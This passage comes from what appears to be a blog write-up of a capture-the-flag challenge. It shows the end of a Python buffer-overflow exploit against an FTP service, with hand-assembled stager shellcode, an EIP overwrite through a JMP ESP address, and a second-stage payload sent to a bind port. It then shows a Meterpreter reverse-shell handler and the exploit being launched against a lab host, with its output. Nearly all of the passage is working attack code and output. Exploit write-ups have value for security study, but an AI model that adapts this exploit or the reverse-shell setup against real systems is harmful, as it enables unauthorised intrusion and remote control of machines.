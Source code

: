 block2 += "\xFF\xD3"                           # CALL EBX
# prep the call for recv
block2 += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
block2 += "\x57"                               # PUSH EDI
# jump to tucked block
block2 += "\xEB\x05"                           # JMP <5 bytes forward>

tucked  = ""
# call recv
tucked += "\xFF\x13"                           # CALL [EBX]
# invoke the payload
tucked += "\xFF\xE6"                           # JMP ESI

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += block2
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += tucked
command += block1
command += "E" * (max_size - len(command))

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn(read_file(payload_file), port + 1, False)
{% endcodeblock %}

Armed with this, we can set up a Meterpreter listener:

{% codeblock Meterpreter handler %}
msf exploit(handler) > exploit

[*] Started reverse handler on 10.1.10.40:8000 
[*] Starting the payload handler...
{% endcodeblock %}

Launch our script at the application:
{% codeblock Sploit invocation %}
$ ./sploit.py 0 10.1.10.34 21 ./revmet8000.bin
[*] Attacking 10.1.10.34:21 ...
[*] Sending 365 bytes to 10.1.10.34:21...
[*] Sending 314 bytes to 10.1.10.34:22...
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux